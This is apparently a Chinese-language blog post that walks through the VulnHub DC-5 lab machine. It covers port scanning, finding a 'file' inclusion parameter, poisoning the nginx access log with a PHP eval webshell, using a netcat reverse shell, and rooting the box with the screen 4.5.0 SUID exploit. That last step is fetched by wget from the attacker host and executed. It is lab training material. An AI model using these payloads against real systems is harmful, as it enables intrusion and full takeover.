+++
title = "VulnHub DC-5 靶机渗透笔记"
date = 2026-11-28T06:40:00+08:00
draft = false
tags = ["VulnHub", "DC-5", "LFI", "提权", "渗透测试"]
categories = ["渗透测试"]
summary = "VulnHub DC-5 通关记录：nmap 发现 80/111/50996，contact 表单 GET 跳转 thankyou.php，参数名爆破找到 file 参数，LFI + nginx access.log 日志包含拿 shell，nc 反弹，最后用 screen 4.5.0 SUID 提权拿到 /root flag。"
ShowToc = true
TocOpen = false
+++

> 环境：VMware Workstation · 靶机：VulnHub DC-5（192.168.72.133）｜ 攻击机：Kali Linux（192.168.72.128）｜ 目标：从 Web 文件包含拿到 shell，利用 screen SUID 提权到 root

## 写在前面

DC-5 的入口是 Web 表单和 `thankyou.php` 的文件包含。先用参数名爆破找到 `file` 参数，再用 nginx access.log 日志包含拿 shell；提权阶段试了 Exim 没成功，最后用 `screen 4.5.0` 的 SUID 漏洞拿到 root。

这篇按实际操作顺序记录，包括参数名爆破、日志包含和 screen 提权。

## Flag 清单

| Flag | 位置 | 说明 |
|---|---|---|
| final | `/root` | 最终 flag |

## 1. 信息收集

扫描得到 DC-5 的 IP：



使用 nmap 进行端口扫描，发现 3 个开放端口：



可以看到 **80/tcp nginx 1.6.2**、**111/tcp rpcbind**、**50996/tcp status**。

## 2. Web 与目录扫描

使用浏览器访问站点：



使用 `dirb` 扫描，没有发现能直接利用的内容：



网页前几项都是纯文字，但 contact 中包含一个表单：



查看源代码发现，这个表单以 GET 形式跳转到 `thankyou.php`：



使用 `sqlmap` 注入失败：



同时页面上也没有任何回显或 Cookie。查看开放的 rpcbind，发现未开启 NFS：



## 3. 文件包含线索

注意到 `thankyou.php` 下方的年份会变化，怀疑存在文件包含：




## 4. 参数名爆破

使用 Burp 爆破参数名。由于数据过多会被限速，使用多个参数在 Pitch 模式下同时爆破：



在获得的结果中，对疑似参数再单独爆破确认：



最终发现 `file` 参数。加载 `index.php` 后确认会被解析：



```http
GET /thankyou.php?file=index.php HTTP/1.1
Host: 192.168.72.133
```

查看 nginx 的配置文件，确认日志路径：



## 5. 日志包含拿 Shell

通过 LFI 把 PHP 一句话写进 nginx 的 access.log：



```http
GET /thankyou.php?file=<?php @eval($_POST['cmd']);?> HTTP/1.1
Host: 192.168.72.133
```

然后包含日志文件：

```text
/thankyou.php?file=/var/log/nginx/access.log
```

使用蚁剑连接：



## 6. 反弹 Shell

使用 `nc` 发送反弹 shell：





## 7. SUID 与提权尝试

查找 SUID 文件：



能看到 `/usr/bin/screen-4.5.0` 和 `/usr/sbin/exim4` 等。先查看 Exim 版本：



版本是 **Exim 4.84_2**。尝试多种提权方式均失败：





## 8. screen 4.5.0 提权

找到 `screen 4.5.0` 的本地提权漏洞：



使用 `searchsploit` 可以看到：

```text
GNU Screen 4.5.0 - Local Privilege Escalation
linux/local/41154.sh
```

在 Kali 开启 HTTP 服务后，在目标 `/tmp` 下载并执行 payload：


```bash
cd /tmp
wget http://192.168.72.128:8000/41154.sh
chmod 777 41154.sh
./41154.sh
```



## 9. 最终 Flag

提权成功，在 `/root` 下找到最终 flag：


